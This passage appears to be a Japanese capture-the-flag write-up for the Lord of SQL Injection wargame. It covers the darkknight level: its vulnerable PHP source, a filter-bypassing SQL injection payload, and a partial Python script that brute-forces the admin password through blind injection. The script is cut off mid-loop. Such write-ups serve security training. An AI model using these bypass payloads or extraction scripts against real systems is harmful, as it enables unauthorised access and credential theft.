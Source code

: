 ``` python
```
### 回答
得られたパスワードを使う．
``` sql
select id from prob_golem where id='guest' and pw='88e3137f'
```

## darkknight

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
### 考察
pw，noにおいて，シングルクォートが使えないのでダブルクォートで対応．
noにおいて”=”が使えない．先ほどのようにlikeなどを用いる．
また，noにおいてascii使えないので，[ord関数](https://www.w3resource.com/mysql/string-functions/mysql-ord-function.php)で代用．左端の文字がマルチバイト文字でなければ，ord関数はascii関数と同等．

以下のようにパスワードの文字を数えた．ちなみに&は%26．
``` sql
select id from prob_darkknight where id='guest' and pw='' and no=100 or id in("admin") && length(pw) like 8#
```
以下のスクリプトを書いて，パスワードを得る．
``` python
import requests
import string

url = 'https://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php'

mycookie = {
    'PHPSESSID': ''
}

letters = string.digits + string.ascii_letters
ans = ""

for i in range(1, 9):
    for letter in letters:
        char = ord(letter)
        response = requests.get(url + '?pw=1&no=1 || id in ("admin") ' + "%26" + "%26" + " ord(mid(pw, {index}, 1)) like {char} %23".format(index = i, char = char), cookies=mycookie)
        if 'Hello admin' in response.text:
```